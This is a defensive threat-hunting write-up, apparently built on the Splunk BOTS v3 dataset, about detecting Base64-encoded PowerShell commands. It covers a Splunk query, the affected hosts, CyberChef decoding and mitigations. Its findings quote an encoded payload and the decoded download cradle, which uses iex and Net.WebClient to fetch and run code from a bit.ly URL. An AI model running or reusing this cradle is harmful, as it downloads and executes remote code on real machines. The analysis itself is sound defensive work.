



<h1>🚨 Scenario 1: Encoded PowerShell Execution Analysis</h1>

<h2>📌 Incident Overview</h2>

During threat hunting operations within Windows process execution logs, suspicious PowerShell commands utilizing Base64 encoding parameters (<code>-enc</code>, <code>-encodedcommand</code>) were detected. Attackers frequently utilize encoded commands to obscure malicious payloads, evade basic string-matching detection rules, and download secondary stagers from remote infrastructure.

<h2>🎯 MITRE ATT&CK Mapping</h2>
<ul>
  <li><strong>Tactic:</strong> Execution (<a href="https://attack.mitre.org/tactics/TA0002/">TA0002</a>)</li>
  <li><strong>Technique:</strong> Command and Scripting Interpreter: PowerShell (<a href="https://attack.mitre.org/techniques/T1059/001/">T1059.001</a>)</li>
  <li><strong>Technique:</strong> Deobfuscate/Decode Files or Information (<a href="https://attack.mitre.org/techniques/T1140/">T1140</a>)</li>
</ul>

<h2>📋 Key Investigation Findings</h2>
<ul>
  <li><strong>Target Hosts Identified:</strong>
    <ul>
      <li><code>FYODOR-L</code> (114 events)</li>
      <li><code>ABUNGST-L</code> (29 events)</li>
      <li><code>BSTOLL-L</code> (4 events)</li>
    </ul>
  </li>
  <li><strong>Execution Timestamp:</strong> August 20, 2018 (11:57:15 AM UTC)</li>
  <li><strong>Executing Account:</strong> <code>Users\AlBungstein</code></li>
  <li><strong>Raw Obfuscated Payload:</strong> 
    <code>aQB1AHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AYgBpAHQALgBsAHkALwBlADBNAHcAOQB3ACIAKQBhA=</code>
  </li>
  <li><strong>Decoded Payload (Deobfuscated):</strong> 
    <code>iex (New-Object Net.WebClient).DownloadString("http://bit.ly/e0Mw9w")</code>
  </li>
  <li><strong>Threat Impact:</strong> <strong>High</strong> — The decoded command invokes <code>Invoke-Expression</code> (<code>iex</code>) to download and execute an external payload into memory from a shortened URL (<code>http://bit.ly/e0Mw9w</code>).</li>
</ul>

<h2>🔍 Investigation Walkthrough</h2>

<h3>Phase 1: Hunting for Encoded Commands</h3>

A hunt query was executed across the <code>botsv3</code> index targeting process execution logs containing common PowerShell encoding flags.

<pre><code>index=botsv3 powershell (*-enc* OR *-encodedcommand* OR *-e *)</code></pre>

<em>Figure 1: Splunk search returning 147 process creation events utilizing encoded PowerShell execution flags.</em>

<h3>Phase 2: Host & Scope Distribution</h3>

Analyzing the <code>host</code> field breakdown across the 147 flagged events revealed the distribution across internal workstations.

<em>Figure 2: Endpoint distribution showing FYODOR-L and ABUNGST-L as the primary hosts executing encoded commands.</em>

<h3>Phase 3: Payload Deobfuscation via CyberChef</h3>

The extracted Base64 string from <code>ABUNGST-L</code> was passed into CyberChef for analysis. Because Windows PowerShell encodes command-line strings in UTF-16LE (Little-Endian Unicode), the decoding recipe required two stages:

<ol>
  <li><strong>From Base64</strong></li>
  <li><strong>Decode Text (UTF-16LE (1200))</strong></li>
</ol>

<em>Figure 3: CyberChef deobfuscation revealing the unencoded Net.WebClient download cradle targeting http://bit.ly/e0Mw9w.</em>

<h2>🛡️ Response & Mitigation Recommendations</h2>
<ol>
  <li><strong>Enforce Script Block Logging:</strong> Enable PowerShell Script Block Logging (Event ID 4104) via GPO to log unencoded script contents regardless of command-line obfuscation.</li>
  <li><strong>Implement Constrained Language Mode:</strong> Configure PowerShell Constrained Language Mode (CLM) and AppLocker / Windows Defender Application Control (WDAC) to prevent execution of unapproved scripts.</li>
  <li><strong>Block Known Shorteners & Malicious Domains:</strong> Block shortener domains (like <code>bit.ly</code>) at the secure web gateway (SWG) or DNS layer unless explicitly required for business purposes.</li>
</ol>
